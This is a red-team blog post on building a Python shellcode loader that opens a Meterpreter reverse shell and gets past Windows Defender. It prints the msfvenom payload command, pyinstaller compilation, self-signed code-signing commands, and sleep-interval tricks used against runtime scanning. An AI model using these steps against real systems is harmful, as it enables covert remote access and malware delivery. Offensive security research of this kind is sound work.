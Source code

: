 ```yaml
---
title: "Pythonic Malware: Evading Detection with Compiled Executables"
layout: "post"
categories: "Windows"
tags: ["Evasion"]
---
```


Creating Python executables during an offensive security engagement used to be an effective method of evasion. However, this tactic has become increasingly difficult on modern Windows endpoints.

In fact, even benign programs seem to get blocked immediately after touching disk. This is just one of the reasons red teamers have moved away from popular frameworks such as [Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion) and onto bigger-better things.

This post revisits compiled Python’s use in offensive security testing and shares my experiences launching Meterpreter shells on a fully patched Windows 10 system against Windows Defender.


## Malware Creation

Given my primary focus was on evasion tactics in the compiled executable, I created a simple shellcode loader as my “malware”. The script called common Windows function's such as `VirtualAlloc` & `CreateThread` to inject shellcode locally within the current process.

The payload itself utilized a `reverse_https` connection over port 443 and was generated by MSFVenom, without any encoding or obfuscation techniques:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.157 LPORT=443 -f py
```

At this point, I didn't have much faith in the code and thought it was sure to get detected. However, when attempting to execute the Python script directly, no alerts were triggered and a reverse connection was established.

![](/assets/posts/pythonic-malware-pt1/pm1_1.png)


## Compiling Python

Despite triggering a successful Meterpreter shell, we cant rely on Python being installed on every Windows workstation. Therefore, the next step is to compile the source code — making it executable without needing any additional resources on the host.

Compiling Python is performed using tools like `pyinstaller`, `py2exe`, or `cx_freeze`. These work by wrapping the bytecode version (`.pyc`) of the script and all required dependencies/interpreters into a single `.exe` file:


```bash
pyinstaller --onefile .\shellcode_loader.py
```

Unfortunately, when downloading the newly compiled `shellcode_loader.exe` onto the target system, I didn't get very far before receiving the following alert:

![](/assets/posts/pythonic-malware-pt1/pm1_2.png)


## Evading Detection

### Code Signing

At this point, I thought about potential strategies to avoid detection and looked into signing the executable with a self-signed certificate.

Using the Visual Studio Developer Command Prompt, I executed the following commands to generate a certificate and sign the `shellcode_loader.exe` file.


```bash
>> makecert /r /h 0 /eku "1.3.6.1.5.5.7.3.3,1.3.6.1.4.1.311.10.3.13" /e 12/12/2025 /sv m8.pvk m8.cer
>> pvk2pfx /pvk m8.pvk /spc m8.cer /pfx m8.pfx
>> signtool sign /a /fd SHA256 /f m8.pfx shellcode_loader.exe
```

Now, looking at the file’s properties, “Joe’s-Software-Emporium” was listed under Digital Signature details— (*Microsoft Default*). With that, the executable could be downloaded without detection.

![](/assets/posts/pythonic-malware-pt1/pm1_3.png)


### Sleep Intervals

Although I was able to download the file, Windows Defender still flagged the program when attempting execution. That’s when I remembered reading [F-Secure’s post](https://labs.f-secure.com/blog/bypassing-windows-defender-runtime-scanning/) about evading Windows Defender Runtime Scanning, which provided lots of great takeaways.

In short, I found adding various sleep intervals between the Win32 API calls bypassed runtime scanning and successfully triggered a working reverse shell.

![](/assets/posts/pythonic-malware-pt1/pm1_4.png)


## Conclusion

A compiled Python executable wouldn’t be my first choice in a true red teaming engagement. However, this was a fun proof-of-concept and may prove useful in other areas of offensive security testing.

A final copy of my `shellcode_loader.py` script can be found on [GitHub](https://gist.github.com/m8sec/864c1feb9718e21df06e9bc5bb52f60f).

Thanks for reading!